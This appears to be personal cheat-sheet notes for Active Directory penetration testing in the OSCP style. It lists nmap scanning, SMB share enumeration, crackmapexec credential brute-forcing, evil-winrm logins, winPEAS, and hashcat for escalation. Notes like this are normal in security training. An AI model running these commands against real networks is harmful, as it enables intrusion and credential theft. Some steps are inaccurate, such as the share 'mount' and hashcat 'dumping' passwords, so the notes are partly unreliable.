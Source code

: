 # Active Directory Penetration testing
## Step 1: Perform Nmap scan
~~~
nmap -sV -sC <ip_address>
~~~
Take a look at the services open, if smb is present:
~~~
sudo smbclient \\\\<ip_address>\\\\
~~~
- If you get **permission enied** message then remove password and try.
- mount share drive:
~~~
cd /mnt/share/
~~~
- Above step will work only if no authentication method is implemented for share drive.
- Enumerate folders by checking each folder. Check if any password is stored in plain text.

# Step 2: Login into AD
- create a username text file.
- if smb is available use **crackmapexec** to brute force into SMB:
~~~
sudo crackmapexec smb <ip_address> -u <username list file> -p <password>
~~~
- Use evil-winrm to login to non Privileage account:
~~~
sudo ruby evil-winrm -i <ip_address> -u <username from crackmapexec> -p <password>
~~~

# Step 3: Privileage Escalation
- Enumerate all users and groups. E.g. scripts are in OSCP.
- Enumerate members of Domain group.
- Run winPEAS.
- If any clean text password present, run crackmapexec on it to find user:
~~~
sudo crackmapexec smb <ip_number> -u <userlist> -p <password>
~~~
- if no results are found, trying enclosing password in **single** or **double** quotes.
- Try to login with new user from evil-winrm:
~~~
sudo evil-winrm -i <ip_address> -u <username> -p <password>
~~~
- Use hashcat to dump passwords and login as administrator with evil-winrm.